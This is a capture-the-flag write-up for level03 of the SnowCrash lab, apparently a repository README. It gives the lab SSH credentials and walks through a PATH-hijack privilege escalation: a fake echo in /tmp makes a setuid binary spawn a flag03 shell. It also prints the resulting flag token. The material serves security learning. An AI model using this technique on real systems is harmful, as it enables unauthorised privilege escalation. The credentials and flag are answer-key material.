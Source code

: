 # Level03

## How to Login

To access the system, use the following SSH command:

```bash
ssh level03@192.168.56.104 -p 4242
password: kooda2puivaav1idi4f57q8iq
```

## How to Get the Flag

Upon logging in, navigate to your home directory where you will find a binary file named `level03`.

### Analyzing the Binary

1. **Download the Binary**: Use `scp` to download the `level03` binary to your local machine for analysis.

   ```bash
   scp -P 4242 level03@192.168.56.104:level03 .
   ```

2. **Decompile the Binary**: Upload the `level03` binary to a tool like Binary Ninja to decompile and analyze it. Upon examination, you'll find the following command inside the binary:

   ```bash
   /usr/bin/env echo Exploit me.
   ```

   This indicates that the binary uses the `echo` command.

### Exploiting the Binary

To exploit the binary, we can manipulate the `echo` command to execute a shell.

1. **Create a Custom `echo`**: In the `/tmp` directory, create a file named `echo` that contains the path to the Bash shell.

   ```bash
   echo /bin/bash > /tmp/echo
   ```

2. **Set Execute Permissions**: Make the custom `echo` file executable.

   ```bash
   chmod +x /tmp/echo
   ```

3. **Modify PATH Environment Variable**: Prepend the `/tmp` directory to the `PATH` environment variable to ensure our custom `echo` is used first.

   ```bash
   export PATH=/tmp:$PATH
   ```

4. **Execute the Binary**: Run the `level03` binary.

   ```bash
   ./level03
   ```

   You should see the following output:

   ```
   bash: /home/user/level03/.bashrc: Permission denied
   flag03@SnowCrash:~$
   ```

   Despite the permission denied error for the `.bashrc` file, you will be logged in as `flag03`.

5. **Retrieve the Flag**: Use the `getflag` command to obtain the flag.

   ```bash
   getflag
   ```

   The command will return the flag:

   ```
   Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
   ```

You have successfully completed Level03.